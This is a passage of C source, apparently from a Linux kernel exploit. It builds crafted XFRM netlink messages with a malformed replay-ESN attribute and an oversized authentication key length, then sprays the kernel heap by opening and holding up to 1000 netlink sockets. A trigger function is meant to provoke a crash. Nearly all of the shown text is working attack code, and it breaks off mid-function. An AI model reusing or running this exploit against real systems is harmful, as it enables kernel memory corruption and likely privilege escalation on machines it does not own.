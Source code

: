 ```c
	}
	r->n.nlmsg_type = XFRM_MSG_NEWSA;
	r->n.nlmsg_flags = NLM_F_REQUEST|NLM_F_CREATE|NLM_F_EXCL;
	r->n.nlmsg_len = NLMSG_LENGTH(sizeof(struct xfrm_usersa_info));
	r->xsinfo.lft.soft_byte_limit = XFRM_INF;
	r->xsinfo.lft.hard_byte_limit = XFRM_INF;
	r->xsinfo.lft.soft_packet_limit = XFRM_INF;
	r->xsinfo.lft.hard_packet_limit = XFRM_INF;
	r->xsinfo.mode = XFRM_MODE_TUNNEL;
	r->xsinfo.flags = XFRM_STATE_ESN;
	src = inet_addr(saddr);
	dst = inet_addr(daddr);
	r->xsinfo.family = AF_INET6;
	//r->xsinfo.saddr.a4 = src;
	//r->xsinfo.id.daddr.a4 = dst;
	memcpy((char*)r->xsinfo.saddr.a6,saddr,16);
	memcpy((char*)r->xsinfo.id.daddr.a6,daddr,16);
	r->xsinfo.id.proto = IPPROTO_AH;
	r->xsinfo.id.spi = 12345;
	add_attr(&r->n,sizeof(r->buf),XFRMA_MARK,&mark,sizeof(mark));
	algo = malloc(sizeof(struct xfrm_algo)+32+1);
	if(!algo) {
		perror("algo allocation");
		return NULL;
	}
	memset(algo->alg_name,0,sizeof(algo->alg_name));
	strcpy(algo->alg_name,"hmac(sha256)");
	algo->alg_key_len = 0xcc;
	strncpy(algo->alg_key,"12345678901234567890123456789012",32);
	add_attr(&r->n,sizeof(r->buf),XFRMA_ALG_AUTH,algo,sizeof(struct xfrm_algo)+33);
	/* build ens */
	esn_size = sizeof(struct xfrm_replay_state_esn) + 1024;
	esn = (struct xfrm_replay_state_esn *)payload;
	/* This is mandatory, in order to let the kernel parse the nlattr structure
	 * if we want to use a specific memory location, we must allocate a memory
	 * with size=target address , which is a 32-bit value
	 */
	esn->bmp_len = (size - sizeof(struct xfrm_replay_state_esn))/4;
	add_attr(&r->n,sizeof(r->buf),XFRMA_REPLAY_ESN_VAL,esn,esn_size);
	return r;
}
void trigger() {
	open("/proc/sys/net/core/somaxconn",O_RDONLY);
	printf("See crash ? \n");
}
void spray_heap(u_int8_t *payload,u_int32_t size,int iter)
{
	int fd,err;
	struct req_newae *r;
	struct req_newsa *sa;
	int i,j;
#define SOCKFD 1000
	int fds[SOCKFD];
	/* don't make iter >= 1000, or change SOCKFD
	   to a greated value */
	sa = build_sa_frame(payload,size);
	for(i=0;i<iter;i++) {
		fd = create_netlink_socket();
		//printf("send %d\n",i);
		send_msg(fd,&sa->n);
		fds[i] = fd;
		/* don't close fds */
		//free(sa); /* don't need to do this*/
```